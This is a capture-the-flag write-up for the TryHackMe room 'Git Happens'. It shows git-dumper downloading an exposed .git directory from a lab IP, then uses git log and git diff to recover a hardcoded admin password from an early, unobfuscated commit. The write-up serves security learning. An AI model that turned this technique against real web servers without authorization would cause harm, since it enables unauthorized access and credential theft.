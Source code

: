 ```yaml
---
title: Git Happens
description: 'Using git-dumper to download the repo and using git history to find credentials'
pubDate: 2023-06-29
category: 'tryhackme'
tags: ['git-dumper']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/3bbde0f7b1df2e2ee61206ae6b3cd9b2.png'
---
```


There is a `.git/` folder (http://10.10.169.248/.git/).

Get the repo:
```bash
git-dumper http://10.10.169.248/.git/ repo
```

Check the git history:
```bash
git log
...[snip]...
commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.

    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
...[snip]...
```

Going to the first commit where the code isn't obfuscated yet:
```bash
git diff 395e087334d613d5e423cdf8f7be27196a360459^!
```

In the `index.html` we see the non obfuscated code:
```
diff --git a/index.html b/index.html
new file mode 100644
index 0000000..0e0de07
--- /dev/null
+++ b/index.html
@@ -0,0 +1,75 @@
...[snip]...
if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
+        ) {
...[snip]...
```

Username: `admin` \
password: `Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`
